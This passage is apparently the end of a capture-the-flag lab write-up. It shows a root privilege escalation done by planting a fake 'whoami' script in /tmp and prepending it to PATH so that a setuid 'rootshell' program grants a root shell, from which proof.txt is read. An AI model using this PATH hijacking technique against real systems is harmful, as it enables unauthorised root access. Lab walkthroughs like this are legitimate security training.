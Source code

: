 ### create the fake `whoami`
```bash
$ cd /tmp
$ print "printf 'tom'" > whoami
$ chmod +x whoami
```

### add the fake `whoami` at the beginning of the current path environment
```bash
$ export PATH=/tmp:$PATH
```

### execute `rootshell` and get the second flag
```bash
$ cd /home/tom
$ ./rootshell
checking if you are tom...
you are: tom
access granted.
# cd /root
cd /root
# ls
ls
flag.txt  proof.txt
# cat proof.txt
cat proof.txt
c*******************************b
```

Pwned! <@:-)
